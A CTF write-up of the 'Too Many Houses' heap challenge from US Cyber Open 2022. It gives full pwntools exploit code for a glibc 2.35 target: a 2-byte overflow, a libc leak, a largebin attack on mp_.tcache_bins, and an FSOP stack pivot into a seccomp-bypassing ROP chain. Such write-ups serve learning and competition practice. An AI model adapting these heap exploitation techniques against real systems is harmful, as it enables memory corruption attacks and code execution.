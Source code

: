 ```yaml
---
title: "US Cyber Open 2022 - Too Many Houses"
excerpt: "Heap wizardry to stack pivot to arbitrary ROP chain execution"
date: 2022-09-14T05:47:11Z
tags: ["pwn", "ctf"]
---
```


> All these talks of houses are starting to ruin the fun of the hunt, maybe you can do something about that
> 
> 0.cloud.chals.io:20887
> 
> Author: lms
> - [too_many_houses.tar.gz](https://github.com/tj-oconnor/cyber-open-2022/blob/main/pwn/house/files/too_many_houses.tar.gz)

Too Many Houses was a binary exploitation challenge in the US Cyber Open CTF in 2022, which is the first step toward qualification for the US Cyber Team. At the end of the CTF, it was worth 1000 points and had only 1 solve. I didn't solve this during the CTF, but attempted to solve during the subsequent US Cyber Combine, making use of the [writeup](https://github.com/tj-oconnor/cyber-open-2022/blob/main/pwn/house/Solution.pdf) posted after the competition. In my opinion, it was a pretty difficult challenge and I do not think I would have been able to solve it on my own. However, I think that I did learn some things from the challenge that I would like to document here.

Let's jump in!

## Overview
We're given a binary, with ld.so and libc.so.6 provided. The libc is stripped (which will be one of our biggest problems as it was compiled by the challenge author, so I'm not aware of any way to unstrip it) and from the strings, it seems that the libc is GLIBC 2.35. This is important, because there are several mitigations that were added coming up to this version:
1. Tcache pointers are encrypted, except for the head of each linked list. This means that we cannot do simple tcache poisoning without a heap leak.
2. The malloc debug hooks (`__malloc_hook`, `__free_hook`, and a few others) are no longer in use. This means that we must rely on another method, such as `__printf_arginfo_table` or the FILE struct to achieve code execution.

Examining the binary a bit more, we notice that there's a restrictive seccomp filter, only allowing us to perform a few syscalls. Most notably, we can use the `open`, `read`, and `write` syscalls, but not `execve` or `execveat`. 

Lastly, we notice the program features. This is a typical menu-based heap pwnable, with options to allocate a chunk ("Create"), edit a chunk's contents ("Edit"), print out a chunk's contents ("Print"), and free a chunk ("Delete"). We can only edit and print once.

## The Vulnerability
After reversing the program a bit, I noticed that in the function that lets you edit a chunk, we have a 2 byte overflow into the next chunk. This is because it tells the size of the chunk using `strlen()`, but the program does not put a null byte after initially reading input. Therefore, if we fill a chunk completely with non-zero bytes, we can overflow the size field of the next chunk, as the size will be considered part of the string when `strlen()` is called.

```C
void edit(void)

{
  uint idx;
  size_t __nbytes;
  
  if (edited_already != 0x737465616d706e6b) {
    FUN_00101219("You already took your shot\n");
                    /* WARNING: Subroutine does not return */
    _exit(0);
  }
  edited_already = 0;
  idx = read_index();
  print_prompt();
  __nbytes = strlen(mem[(ulong)idx * 2]);
  read(0,mem[(ulong)idx * 2],__nbytes);
  return;
}
```
However, since we can only edit a chunk once, we can only trigger the vulnerability once. That matches up with the text that is printed in the beginning of the program ("What if you only had one shot? One opportunity? Would you take it? Or would you let it slip?"), we only get one shot at triggering this vulnerability.

## Getting a leak
First of all, the program has all protections enabled except for RELRO and stack canaries. These will likely not be relevant because the binary has PIE (and we would need a program base leak to get the location of the GOT), and we do not have a stack overflow. 

ASLR is most likely enabled on the server, so the first thing we would need to do anything useful is a libc leak. This can be done with some clever heap feng shui, as I read in the writeup. 

After creating helper function wrappers for calling the four functions of the binary, I implemented this code for leaking the libc address (again, relying on the writeup).

```python
create(5, 0x1010, b"\x02"*0x400)
create(0, 0x980, b'\0'*0x28 + p64(0x1000)) # fake chunk size
create(3, 0x1030, b'\0'*0x70 + p64(0x590) + p64(0x1000)) # fake prev chunk, chunk size
create(9, 0x4000, b"Buffer") # prevent consolidation
delete(0) # chunk 0 gets put in the large? bin
create(1, 0x460, b'a') # this gets allocated out of chunk 0, but leaves the libc pointers
l = u64(leak(1) + b'\0\0')
libc.address = l - 0x1ee261
info("libc @ " + hex(libc.address))
```

The way this works is by creating multiple chunks, as well as a chunk as a buffer to prevent consolidation with the top chunk. Putting one chunk into either the unsorted or large bins by freeing it allows us to have the next allocation taken from the freed chunk. This lets us to leak the libc pointers that are not zeroed out on malloc().

## Largebin attack and FSOP
The next step outlined in the writeup is a largebin attack, targeting `mp_.tcache_bins` by overwriting it with a large value. This is done so that we can have more control over malloc() returns, as there are no checks performed when a chunk is returned from the tcachebins. In addition to this, a larger value of mp_.tcache_bins will lead to data outside of the `tcache_perthread_struct` to be used as heads of tcachebins (this is useful because the heads of tcache bins are left in their original forms, unencrypted).

We can now utilize the heap overflow to create overlapping chunks. This lets us to perform the actual largebin attack, writing the address of the largebin to our target, `mp_.tcache_bins`.

After the overwrite, we have an entry in the 0x2ff0 tcachebin pointing to the area we want to overwrite. Now we need to find something to write to. Because of the seccomp filter, we must be able to pivot to a ropchain that opens, reads, and writes the flag to stdout. In the writeup, the way that this is done is through FSOP. The vtable of the `_IO_file_plus` struct is edited so that we have control over the function pointers that are called when a FILE object is `fflush()`ed (which usually happens when the program exits).

When we allocate a chunk of the appropriate size in order to overwrite the vtable entries, and place our ropchain at an appropriate place within our input, and then use the `setcontext` gadget in libc in order to do this, because it loads all registers from the memory pointed to by `rdx`, which points to the beginning of our input.

Following what the author did in his writeup, we overwrite the `fflush` pointer in `_IO_str_jumps` with `puts`, which will call more functions so that `rdx` will eventually point to where we chose to put the beginning of our input (this will be useful later). We can also then overwrite `_IO_default_uflow` with the address of the `setcontext` gadget, which allows us to stack pivot to our ropchain (which is now at a known address as we know the libc base address, and we are overwriting data within libc).

 ```python
create(2, 0x478, b"d"*0x478) # fill the chunk completely
edit(2, b"l"*0x478 + b"\x91\x05") # overflow, making the next chunk bigger, to end inside chunk 3
create(4, 0x530, b"c"*0x500 + p64(0x510) + p64(0x1041)) # allocated out of remaining chunk 0, overlaps with chunk 3
delete(3) # this free chunk is overlapped, so we can overwrite poitners
delete(4) # move chunk 3 into largebin

tcache_bins = libc.address + 0x1ed360 + 72 # mp_.tcache_bins, allows us to treat any chunk as a tcache
                                           # this allows us to have more control over where we write
setcontext = libc.address + 0x50055 # used for stack pivot
io_helper_jumps = libc.address + 0x1ee980 # yea... stripped libc is hard

# largebin attack overwrites mp_.tcache_bins with a large value
# this chunk is at the right offset from tcache_perthread_struct to be considered the head of the 0x2ff0 tcache bin
create(6, 0x580, b"m"*312 + p64(io_helper_jumps) + b"a"*(0x500-320) + p64(0x510) + p64(0x1041) + p64(l+0x90)*3 + p64(tcache_bins))

delete(5)
create(7, 0x1060, b"c")

rop = ROP(libc) # open read write ropchain
rop.read(0, libc.bss(42), 100) # read filename
rop(rax=2, rdi=libc.bss(42), rsi=0, rdx=0) # can't use the open() function, because that uses the openat syscall
rop.raw(rop.find_gadget(["syscall", "ret"])[0])
rop.read(3, libc.bss(42), 100)
rop.write(1, libc.bss(42), 100)

print(rop.dump())
r = b"a"*160 + p64(io_helper_jumps+160) + rop.chain() # ropchain with the right padding because setcontext pops rsp

# this gets allocated out of tcache, at io_helper_jumps
# we overwrite _IO_str_jumps's fflush pointer with puts, and when puts is called, it calls _IO_default_uflow, which calls the setcontext gadget with RDX pointed to our input.
# this triggers the ropchain and prints the flag
create(8, 0x2fe0, r + b"a"*(0xc18-len(r)) + p64(setcontext) + b"a"*(3416-0xd40) + p64(libc.address + 0x81e00) + b"b"*296 + p64(libc.sym.puts))
```

With this, `rsp` gets popped from our input, and now our ropchain will be executed on the next call to `exit()`, when the stdio buffers are flushed and our overwritten function pointers are called.

## Triggering the ropchain
But hold on... The program doesn't use the normal `exit()` function! It uses the `_exit()` function, which does not `fflush()` the buffers, but instead immediately exits. This is a problem, as our whole FSOP payload would never be executed. 

However, we notice that in the beginning of the program, `alarm()` is called with a time of 32 seconds, and a handler is set that will call the normal `exit()`. This will trigger our FSOP payload, we just need to wait 32 seconds.

## Wrapping it up
After running this on the remote server, we get the flag back: `uscg{Even_1_Byte_Is_Still_Too_Much}`

Thanks to lms for a great challenge, even though my understanding is still pretty limited. This was a very cool and difficult challenge.
